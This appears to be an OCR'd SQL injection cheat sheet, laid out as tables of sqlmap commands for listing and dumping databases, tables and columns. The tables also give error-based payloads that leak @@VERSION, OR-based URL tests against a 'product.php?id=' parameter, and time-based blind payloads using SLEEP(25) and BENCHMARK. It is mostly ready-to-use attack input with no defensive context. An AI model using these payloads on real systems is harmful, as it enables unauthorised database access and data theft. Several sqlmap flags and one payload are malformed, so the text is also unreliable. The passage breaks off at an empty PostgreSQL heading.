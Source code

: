| Command                                                            | Description                           |
| ------------------------------------------------------------------ | ------------------------------------- |
| `sqlmap -u "url" -DBS`                                              | List available databases              |
| `sqlmap -u "url" -table -D [database]`                              | List tables in the specified database |
| `sqlmap -u "url" -columns -D [database] -T [table]`                 | List columns in the specified table   |
| `sqlmap -u "url" -dump -D [database] -T [table]`                    | Dump data from the specified table    |

### Manual Attack Techniques

| Command                                                             | Description                           |
| ------------------------------------------------------------------- | ------------------------------------- |
| `select 1 and row(1,1)>(select count(),concat(CONCAT(@@VERSION),0x3a,floor(rand(2)))x from (select 1 union select 2)a group by x limit 1)` | Quick detection for integers         |
| `'+(select 1 and row(1,1)>(select count(),concat(CONCAT(@@VERSION),0x3a,floor(rand(2)))x from (select 1 union select 2)a group by x limit 1))+` | Quick detection for strings          |

### Clear SQL Test Cases

| URL Example                                 | Description                           |
| ------------------------------------------- | ------------------------------------- |
| `product.php?id=4`                          | Simple test for SQL injection         |
| `product.php?id=5-1`                        | Subtracting to test error-based injection |
| `product.php?id=4 OR 1=1`                   | Basic OR-based SQL injection          |
| `product.php?id=-1 OR 17-7=10`              | Another example of OR-based injection |

### Blind SQL Injection (Time Delay)

| Query                                                          | Description                           |
| -------------------------------------------------------------- | ------------------------------------- |
| `SLEEP(25)--`                                                  | Basic time delay injection            |
| `SELECT BENCHMARK(1000000, MD5('A'));`                          | Another example of time delay injection |

### Real-World Sample

| Query                                                                                       | Description                           |
| ------------------------------------------------------------------------------------------- | ------------------------------------- |
| `ProductID=1 OR SLEEP(25)=0 LIMIT 1--`                                                       | Example of time-based SQL injection   |
| `ProductID=1') OR SLEEP(25)=0 LIMIT 1--`                                                     | Example with single quote             |
| `ProductID=1' OR SLEEP(25)=0 LIMIT 1--`                                                      | Another variation with single quote  |
| `ProductID=1)) OR SLEEP(25)=0 LIMIT 1--`                                                     | Another blind SQL injection           |
| `ProductID=SELECT SLEEP(25)--`                                                              | Blind injection with SELECT           |

### PostgreSQL
